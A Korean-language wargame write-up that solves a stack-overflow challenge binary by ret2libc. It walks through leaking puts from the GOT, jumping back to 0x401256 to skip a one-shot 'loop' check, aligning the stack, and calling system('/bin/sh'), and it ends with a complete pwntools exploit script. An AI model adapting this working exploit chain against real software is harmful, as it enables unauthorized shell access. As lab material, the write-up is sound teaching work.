








> ret2libc( loop 우회)
> 

---

## 1. 대상 분석

### 1-1. 문제 코드 확인

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int loop = 0;

void init(){
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
}

void gadget() { // gadget 존재
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}

int main(void)
{
    init();
    char buf[0x30];

    printf("Hello, Sir\n");
    printf("This laboratory is currently closed.\n");
    printf("Please leave a message, and I will forward it to the person in charge of the laboratory.\n");

    if (loop)
    {
        puts("Goobye, Sir");
        exit(-1);
    }
    // 첫번째로 main에 가면, if(0)은 거짓이므로 exit(-1)이 안되지만 두번째로 main에 가면
    // if(1)은 참이므로, exit(-1)이 실행되며 종료된다.

    loop = 1; 
    read(0, buf, 0x70); // 여기서 오버플로우 가능.
    return 0;
}
```

### 1-2. 보호 기법 확인



```c
FuLL RELRO → GOT 불가능
No canary → Canary leak, 우회 필요 없음.
NX enabled → 쉘코드 주입 실행 못함. 스택에서 실행 불가.
No PIE → 하드 코딩 가능
```

---

## 2. Exploit 아이디어

GOT도 못 덮고 셸코드도 못 넣으니, 남은 방법은 **이미 메모리에 올라온 libc 함수(`system`)를 ROP로 호출**하는 **ret2libc** 이다.

### 2-1. ret2libc

NX 때문에 "내 셸코드를 주입하고 실행"은 안 되지만, **libc에는 이미 `system`도 있고 `"/bin/sh"` 문자열도 있다.** 리턴 주소를 조작해서 `system("/bin/sh")`가 호출되도록 스택을 짜면, 새 코드를 주입하지 않고도 셸을 딴다.

- `system`의 1번째 인자(rdi)에 `"/bin/sh"` 주소를 넣어야 한다.
- 64비트에서 1번째 인자는 **rdi 레지스터**로 전달 → `pop rdi ; ret` 가젯으로 세팅.
- 이 문제에는 gadget이란 함수가 존재하고 gadget 함수 내에  **`pop rdi ; ret` 등이 존재한다.**

> **gadget 함수**
> 
> 
> ```c
> void gadget() {    asm("pop %rdi; ret");          
> // 1번째 인자 세팅용    
> asm("pop %rsi; pop %r15; ret");
> // 2번째 인자    
> asm("pop %rdx; ret");          
> // 3번째 인자
> }
> ```
> 

### 2-2. libc 주소 leak (ASLR 우회)

ret2libc의 전제는 **`system`의 주소를 아는 것**인데, libc는 **ASLR** 때문에 실행할 때마다 로드 주소가 바뀐다. 그래서 먼저 **libc 함수 하나의 실제 주소를 유출시키고(leak)**, 이를 이용해 libc 베이스를 역산해야 한다.

방법은 **`puts(puts@got)`**

- `puts@got`에는 **puts의 실제(런타임) 주소**가 들어있다.
- 그걸 `puts`의 인자로 넘겨 출력시키면 → **libc 상의 puts 주소가 화면에 찍힌다.**
- `libc_base = 출력된 puts 주소 - libc.sym['puts']` 로 libc 베이스 계산.

libc 베이스를 구하면 `system`, `"/bin/sh"` 주소도 전부 계산 가능.

> 
> 
> 
> No PIE는 **바이너리(main, gadget, plt 등)** 주소만 고정시킨다. **libc는 별개의 라이브러리**라서 여전히 ASLR로 매번 옮겨진다. 그래서 바이너리 주소는 하드코딩할 수 있지만, libc 주소는 leak으로 알아내야 한다.
> 

### 2-3. `loop` 문제 우회

ret2libc는 보통 **2단계**로 진행한다.

1. leak으로 libc 주소를 알아낸 뒤
2. 다시 입력을 받아 `system` 체인을 넣는다. 

위와 같이 진행하려면 **입력을 두 번 받아야** 하는데, 이 문제는 그걸 막는 장치가 있다.

```c
int loop = 0;           // 전역변수
if (loop) { 
puts("Goobye, Sir"); exit(-1); 
}
loop = 1;
read(0, buf, 0x70);
```

- 전역변수 `loop`은 main을 나가도 값이 유지된다.
- 1번째 main: `loop=0` → 통과 → `loop=1`로 바뀜 → read.
- 2번째 main 진입: `loop=1` → `if(loop)` 참 → **exit(-1)로 종료.**

즉 **main 처음으로 되돌아가는 전형적인 2단계 패턴이 막혀 있다.** 
우회법은 **`loop` 체크를 건너뛴 지점으로 직접 복귀**하는 것

```
401233:  if(loop) 체크 ────┐
40123b:  je 401256         │  ← loop==0이면 통과
40123d:  puts("Goobye")    │  ← loop!=0이면 종료
401251:  exit              │
401256:  loop=1; read(...) ┘  ← loop 체크 건너띈 지점(0x401256)으로 바로 복귀
```

→ 1단계 체인 끝에서 main이 아니라 **`0x401256`(read 셋업 지점)으로 복귀**시키면, `if(loop)` 검사를 통째로 건너뛰고 **read를 또 받는다.** No PIE라 이 주소도 고정이라 하드코딩 가능하다.

### 2-4. 2단계 구조 정리

```
[1단계] BOF -> pop rdi; puts@got -> puts@plt (libc puts 주소 leak)
            -> 0x401256 복귀 (loop 체크 건너뛰고 read 재진입)
[2단계] BOF -> pop rdi; "/bin/sh" -> system  -> 셸 획득
```

여기서 두 가지 디테일이 필요하다.

1.  **saved rbp 안정화 (fake_rbp)**

main이 `return 0` 할 때 `leave`가 실행되며 **rbp가 우리가 덮은 saved rbp 값이 된다.** 그냥 'A'로 두면 rbp가 `0x4141...`이 되어, read 재진입 때 `buf = rbp-0x30`이 엉뚱한 주소가 되어 터진다. 그래서 saved rbp 자리에 **쓰기 가능한 고정 주소(bss 영역 내 주소)**를 넣어 프레임을 안정시킨다. (No PIE라 bss 주소도 고정)

1. **정렬용 `ret` 가젯**

`system` 내부의 `movaps` 명령은 **스택이 16바이트 정렬**돼 있어야 동작한다. 체인 길이에 따라 8바이트 어긋나면 SIGSEGV가 나므로, `ret` 가젯 하나를 끼워 정렬을 맞춘다.

> 1단게 페이로드의 saved rbp 자리에 fake_rbp를 넣어, main이 leave 할 때 rbp가 fake_rbp가 되도록 만들면 offset을 재사용할 수 있다.(사실상 이름만 변경)
> 

---

## 3. 필요한 정보 확인

### 3-1. Offset 계산

```c
objdump -d ./pivot | grep -A30 '<main>:'
```



read 호출 직전에 lea 확인. 0x30이 buf와 rbp 사이의 거리.

- RET(리턴 주소) = rbp + 8
- offset = 48(0x30) + 8 = 56

### 3-2 .gadget 주소 확인

**바이너리 안의 gadget함수 가젯 확인**

```c
ROPgadget --binary ./pivot | grep 'pop rdi ; ret'
```



- **gadget: 0x4011e5**

**정렬용 ret 가젯 확인**

```c
ROPgadget --binary ./pivot | grep ': ret$'
```



- **정렬용 gadget: 0x40101a**

### 3-3. puts 관련 주소 확인

```c
objdump -d ./바이너리 | grep '<puts@plt>'   # puts@plt (호출할 함수)
objdump -R ./바이너리 | grep puts           # puts@got (leak할 대상)
```



- **puts@plt: 0x401070**
- **puts@got: 0x403fd0**

### 3-4. read 호출 지점 확인

```c
objdump -d ./pivot | grep -A30 '<main>:'
```



```c
401233:  mov  loop,%eax       ┐
401239:  test %eax,%eax       │ ← if(loop) 체크
40123b:  je   401256          ┘
40123d:  ... puts("Goobye")   ┐ ← loop!=0이면 여기로 (죽는 길)
40124c:  mov  $0xffffffff,%edi │
401251:  call exit@plt        ┘
401256:  movl $0x1, loop      ┐ ←  je가 점프하는 "통과" 지점
401260:  lea  -0x30(%rbp),%rax│   (loop=1 세팅 후)
...                           │   read 셋업
401271:  call read@plt        ┘
```

- **read 복귀 지점: 0x401256**

### 3-5. main 주소 확인

```c
nm ./pivot | grep 'main'
```



- **main: 0x4011f0**

---

## 4. Exploit

```c
from pwn import *
context.arch = 'amd64'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
p = process('./pivot')

# 주소 
off       = 0x38
POP_RDI   = 0x4011e5
RET       = 0x40101a
PUTS_PLT  = 0x401070
PUTS_GOT  = 0x403fd0
MAIN_READ = 0x401256
FAKE_RBP  = 0x404800

# 1단계: libc leak 
# puts(puts@got) -> 실제 puts 주소 출력 -> read 지점으로 복귀
stage1  = b'A'*0x30                 # buf 채우기
stage1 += p64(FAKE_RBP)             # saved rbp (프레임 안정화)
stage1 += p64(POP_RDI) + p64(PUTS_GOT)
stage1 += p64(PUTS_PLT)             # puts(puts@got)
stage1 += p64(MAIN_READ)            # leak 후 read 지점 복귀 (loop 우회)

p.recvuntil(b'laboratory.\n')       # 인사말 3줄 보내기
p.send(stage1)

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
log.info("puts leak = %#x", leak)
log.info("libc base = %#x", libc.address)
assert libc.address & 0xfff == 0    # 페이지 정렬 확인 (base가 맞으면 끝 3자리 000)

# 2단계: system("/bin/sh")
binsh  = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']

stage2  = b'A'*0x30
stage2 += p64(FAKE_RBP)             # saved rbp (또 안정화)
stage2 += p64(RET)                  # 16바이트 정렬용
stage2 += p64(POP_RDI) + p64(binsh)
stage2 += p64(system)               # system("/bin/sh")
p.send(stage2)

p.interactive()
```

---

## 5. Clear



---
